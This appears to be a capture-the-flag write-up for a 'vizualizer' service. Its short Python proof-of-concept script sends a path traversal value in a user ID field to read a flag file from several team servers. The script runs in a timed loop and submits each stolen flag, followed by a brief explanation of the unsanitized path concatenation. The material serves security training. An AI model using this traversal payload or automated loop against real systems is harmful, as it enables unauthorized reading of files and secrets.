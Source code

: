 # Write-up for vizualizer service

## PoC code
```python
import requests
from submitOpen import send
from time import sleep

def q(host):
    data = {'id': '../../../../../var/ctf/flag'}
    r = requests.post(host, data=data)
    return r.text

host_list = [
        ('http://localhost:12341/login', 'Team 1'),
        ('http://localhost:12342/login', 'Team 3'),
        ('http://localhost:12343/login', 'Team 4'),
        ('http://localhost:12344/login', 'Team 5'),
        ('http://localhost:12345/login', 'Team TA'),
        ]

def attack():
    for h, tn in host_list:
        try:
            a = q(h)
            key = a.split('\n')[-1]
            print tn
            print repr(key)
            send('Team 2', tn, 'Visualizer', key)
        except Exception:
            print Exception.msg
            pass

while True:
    attack()
    print '-------------------------------------------'
    sleep(60)
```

## Description

When getting user's ID at a first page, server doesn't properly sanitize user
input, resulting in a Local File Injection (FLI). Since server finds user's
public key with concatnating paths, we can simply inject path of flag at user's
ID field to get flag.
